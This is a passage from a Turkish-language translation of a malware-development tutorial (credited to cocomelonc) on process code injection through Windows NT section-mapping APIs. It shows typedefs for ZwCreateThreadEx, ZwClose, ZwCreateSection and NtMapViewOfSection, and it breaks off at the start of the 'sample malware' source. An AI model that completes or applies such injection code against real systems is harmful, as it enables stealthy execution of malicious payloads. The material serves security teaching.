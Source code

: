 ```cpp
typedef NTSTATUS(NTAPI* pZwCreateThreadEx)(
  _Out_ PHANDLE                 ThreadHandle,
  _In_ ACCESS_MASK              DesiredAccess,
  _In_opt_ POBJECT_ATTRIBUTES   ObjectAttributes,
  _In_ HANDLE                   ProcessHandle,
  _In_ PVOID                    StartRoutine,
  _In_opt_ PVOID                Argument,
  _In_ ULONG                    CreateFlags,
  _In_opt_ ULONG_PTR            ZeroBits,
  _In_opt_ SIZE_T               StackSize,
  _In_opt_ SIZE_T               MaximumStackSize,
  _In_opt_ PVOID                AttributeList
);
```

![injection 3](./images/35/2022-01-16_23-40.png){width="80%"}    

payload'u tetiklemek için `RtlCreateUserThread` yerine `ZwCreateThreadEx` kullandık.    

Ve bir diğer fark, tutamakları kapatmak (temizleme) için `ZwClose` kullandık:    

```cpp
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);
```
![injection 4](./images/35/2022-01-16_23-47.png){width="80%"}    

Yani, örnek zararlı yazılımımızın tam kaynak kodu şu şekilde:     

```cpp
/*
 * hack.cpp - code injection via 
 * ZwCreateSection, ZwUnmapViewOfSection
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/14/malware-injection-13.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
```